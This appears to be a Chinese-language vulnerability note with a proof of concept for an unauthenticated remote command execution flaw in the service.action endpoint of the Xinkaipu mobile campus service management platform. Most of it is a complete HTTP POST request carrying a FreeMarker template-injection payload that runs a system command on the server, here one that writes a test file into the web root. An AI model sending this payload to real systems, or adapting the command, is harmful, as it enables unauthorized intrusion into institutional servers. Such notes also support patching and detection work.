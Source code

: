 
## 新开普掌上校园服务管理平台service.action远程命令执行
新开普掌上校园服务管理平台service.action接口处存在远程命令执行漏洞，攻击者可在未经身份认证的情况下，调用后台接口，执行恶意系统命令。

## POC
```
POST /service_transport/service.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Connection: close
Content-Length: 211
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: JSESSIONID=6A13B163B0FA9A5F8FE53D4153AC13A4
Upgrade-Insecure-Requests: 1

{  "command": "GetFZinfo",  "UnitCode": "<#assign ex = "freemarker.template.utility.Execute"  ?new()>${ex("cmd /c echo 123 >./webapps/ROOT/test.txt")}"}

```

![image](../../images/1743d6a9-3472-4e9e-ad0e-86b1d5a50dac.png)
![image](../../images/67e35c0c-6892-409c-9239-425b79566650.png)


